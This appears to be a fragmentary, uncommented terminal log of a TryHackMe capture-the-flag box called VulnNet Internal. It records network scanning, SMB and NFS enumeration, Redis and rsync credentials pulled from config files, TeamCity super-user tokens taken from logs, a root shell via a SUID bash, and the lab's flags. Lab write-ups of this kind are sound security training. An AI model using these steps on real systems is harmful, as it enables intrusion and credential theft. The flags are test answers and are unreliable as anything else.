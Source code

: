 ┌──(mikey㉿kali)-[~/rabbit]
└─$ nmap -sC -sV -p 1-1000 10.10.40.193
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-17 20:07 IST

PORT    STATE    SERVICE     VERSION
6/tcp   filtered unknown
22/tcp  open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38138/udp   mountd
|   100005  1,2,3      38319/tcp   mountd
|   100005  1,2,3      38570/udp6  mountd
|   100005  1,2,3      40475/tcp6  mountd
|   100021  1,3,4      37650/udp   nlockmgr
|   100021  1,3,4      38649/tcp   nlockmgr
|   100021  1,3,4      45825/tcp6  nlockmgr
|   100021  1,3,4      60521/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open     rsync       (protocol version 31)
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel




└─# sudo smbclient -L 10.10.21.154
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
                        
smb: \> ls
  .                                   D        0  Tue Feb  2 14:50:09 2021
  ..                                  D        0  Tue Feb  2 14:58:11 2021
  temp                                D        0  Sat Feb  6 17:15:10 2021
  data                                D        0  Tue Feb  2 14:57:33 2021
cd dat
                11309648 blocks of size 1024. 3277596 blocks available
smb: \> cd data
smb: \data\> ls
  .                                   D        0  Tue Feb  2 14:57:33 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  data.txt                            N       48  Tue Feb  2 14:51:18 2021
  business-req.txt                    N      190  Tue Feb  2 14:57:33 2021

   
               mb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 17:15:10 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  services.txt                        N       38  Sat Feb  6 17:15:09 2021
cat servid
                11309648 blocks of size 1024. 3277360 blocks available
smb: \temp\> get services.txt
getting file \temp\services.txt of size 38 as services.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
        
        
┌──(mikey㉿kali)-[~/rabbit]
└─$ sudo mount -t nfs 10.10.40.193:  /tmp 

            
 ──(mikey㉿kali)-[/tmp/opt/conf/redis]
└─$ cat redis.conf | grep -i password

requirepass "B65Hx562F@ggAZ@F"
masterauth <master-password>
        
redis-cli -h 10.10.65.34 -a "B65Hx562F@ggAZ@F"       
   
echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | base64 -d

Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v


THM{ff8e518addbbddb74531a724236a8221}
rsync rsync://rsync-connect@10.10.65.34/files/sys-internal/user.txt /rsync/         
Password: 
┌──(root㉿kali)-[/rsync]
└─# ls
user.txt
                                                                             
┌──(root㉿kali)-[/rsync]
└─# cat user.txt        
THM{da7c20696831f253e0afaca8b83c07ab}


┌──(root㉿kali)-[~mikey/internal]
└─# ssh -i id sys-internal@10.10.120.193                                                                    
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.



sys-internal@vulnnet-internal:/TeamCity/conf$ ss -tulwn
Netid                    State                       Recv-Q                      Send-Q                                                 Local Address:Port                                            Peer Address:Port                     
                                      0.0.0.0:*                        
                                    0.0.0.0:*                        
                                              0.0.0.0:*                        
tcp                      LISTEN                      0                           1                                                 [::ffff:127.0.0.1]:8105                                                       *:*                        
tcp                      LISTEN                      0                           128                                                             [::]:41993                                                   [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:55849                                                   [::]:*                        
tcp                      LISTEN                      0                           5                                                               [::]:873                                                     [::]:*                        
tcp                      LISTEN                      0                           128                                                            [::1]:6379                                                    [::]:*                        
tcp                      LISTEN                      0                           64                                                              [::]:41611                                                   [::]:*                        
tcp                      LISTEN                      0                           50                                                              [::]:139                                                     [::]:*                        
tcp                      LISTEN                      0                           100                                               [::ffff:127.0.0.1]:8111             

sys-internal@vulnnet-internal:/TeamCity/logs$ cat catalina.out | grep -i token
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)

![](https://i.imgur.com/cNWT1V5.png)

bash-4.4$ ./bash -p
bash-4.4# whoami
root



bash-4.4# cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
          
                                            
